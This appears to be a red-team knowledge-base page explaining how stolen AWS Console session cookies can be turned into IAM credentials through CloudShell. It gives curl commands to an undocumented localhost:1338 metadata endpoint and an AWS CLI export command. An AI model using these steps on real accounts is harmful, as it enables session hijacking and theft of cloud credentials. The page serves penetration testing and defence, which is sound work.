 ```yaml
---
author_name: Nick Frichette
title: "Get IAM Credentials from a Console Session"
description: Convert access to the AWS Console into IAM credentials.
hide:
  - toc
---
```


# Get IAM Credentials from a Console Session

<div class="grid cards" markdown>
-   :material-account:{ .lg .middle } __Original Research__

    ---

    <aside style="display:flex">
    <p><a href="https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/">Retrieving AWS security credentials from the AWS consoletitle</a> by <a href="https://blog.christophetd.fr/">Christophe Tafani-Dereeper</a></p>
    <p><img src="/images/researchers/christophe_tafani-dereeper.jpg" alt="Christophe Tafani-Dereeper" style="width:44px;height:44px;margin:5px;border-radius:100%;max-width:unset"></img></p>
    </aside>
</div>

When performing a penetration test or red team assessment, it is not uncommon to gain access to a developer's machine. This presents an opportunity for you to jump into AWS infrastructure via credentials on the system. For a myriad of reasons you may not have access to credentials in the `.aws` folder, but instead have access to their browser's session cookies (for example via cookies.sqlite in FireFox).

Gaining access to the Console is great, but it may not be ideal. You may want to use certain tools that would instead require IAM credentials.

To get around this, we can leverage CloudShell. CloudShell exposes IAM credentials via an undocumented endpoint on port 1338. After loading session cookies from the victim into your browser, you can navigate to CloudShell and issue the following commands to get IAM credentials.

```
[user@cloudshell]$ TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")

[user@cloudshell]$ curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```

Alternatively, you can run the following command, which returns credentials with a short TTL (roughly 15m).

```
[user@cloudshell]$ aws configure export-credentials --format env
```
